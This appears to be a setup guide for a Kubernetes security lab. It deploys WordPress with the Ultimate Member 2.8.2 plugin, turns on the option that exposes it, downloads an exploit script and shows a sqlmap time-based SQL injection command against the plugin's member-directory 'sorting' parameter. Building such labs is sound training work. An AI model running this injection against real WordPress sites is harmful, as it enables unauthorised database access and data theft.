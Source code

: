 # Setup

```bash
kubectl apply -f https://k8s.adriansoftware.de/attacks/08/setup.yaml

# find wordpress* pod grep
ID=$(kubectl get pods -o wide | grep wordpress | awk '{print $1}')
# exec into container and run
kubectl exec -it $ID -- /bin/bash
### in shell:
apt update && apt install unzip -y
curl -o /tmp/ultimate-member.zip https://downloads.wordpress.org/plugin/ultimate-member.2.8.2.zip \
    && unzip /tmp/ultimate-member.zip -d /var/www/html/wp-content/plugins/ \
    && rm /tmp/ultimate-member.zip
### out

sudo apt install sqlmap -y

curl https://k8s.adriansoftware.de/attacks/08/exploit.py -o exploit8.py

sudo apt update
sudo apt install python3-pip -y
python3 -m pip install pystyle --break-system-packages
```

open browser got ot <master_ip>:30080
-> plugins -> Activate Ultimate Member plugin -> plugin click "create pages"

http://master_ip:30080/wp-admin/admin.php?page=um_options&tab=misc
Activate "Enable the use of a custom table for account metadata" option in Ultimate Member > Misc -> "Run" -> Save Changes

# Attack

```bash

python3 exploit8.py -f http://localhost:30080
# sqlmap...
```

<!-- #sqlmap -u http://localhost:30080/wp-admin/admin-ajax.php --method POST --data "action=um_get_members&nonce=c824ca546c&directory_id=b9238&sorting=user_login" --dbms mysql --technique=T -p sorting -->
